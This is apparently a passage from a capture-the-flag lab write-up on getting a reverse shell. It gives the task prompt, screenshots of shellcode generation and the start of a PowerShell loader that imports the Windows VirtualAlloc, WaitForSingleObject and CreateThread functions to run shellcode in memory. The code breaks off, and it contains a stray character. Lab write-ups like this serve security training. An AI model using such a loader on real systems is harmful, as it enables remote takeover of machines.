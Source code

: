 Can you help Glitch identify and update the shellcode with the correct IP and port to restore the connection and reclaim control?

# Question
---


![Pasted image 20241208144730.png](../../IMAGES/Pasted%20image%2020241208144730.png)


First, let's create the shellcode in order to start the steps to get a reverse shell:

![Pasted image 20241208145857.png](../../IMAGES/Pasted%20image%2020241208145857.png)


Now, let's paste this code into windows to receive the connection once we've set up the listener:

```c#
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
 [DllImport("kernel32")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); 
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"6
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds); 
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
 
```